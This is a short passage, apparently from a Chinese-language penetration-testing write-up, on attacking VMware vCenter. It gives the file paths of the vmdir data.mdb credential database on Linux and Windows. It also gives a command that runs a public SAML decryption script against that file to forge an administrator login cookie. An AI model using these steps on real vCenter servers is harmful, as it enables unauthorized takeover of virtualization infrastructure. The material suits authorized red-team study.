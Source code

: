-   Linux：`/storage/db/vmware-vmdir/data.mdb`
-   Windows：`C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091200235.png-water_print](assets/1708572547-b40bd612f84b082ac89175384fe77b56.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091200235.png-water_print")

利用 SAML [解密脚本](https://github.com/horizon3ai/vcenter_saml_login)生成 Cookie：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>python3 vcenter_saml_login.py -p data.mdb -t 192.168.0.92<br>``` |

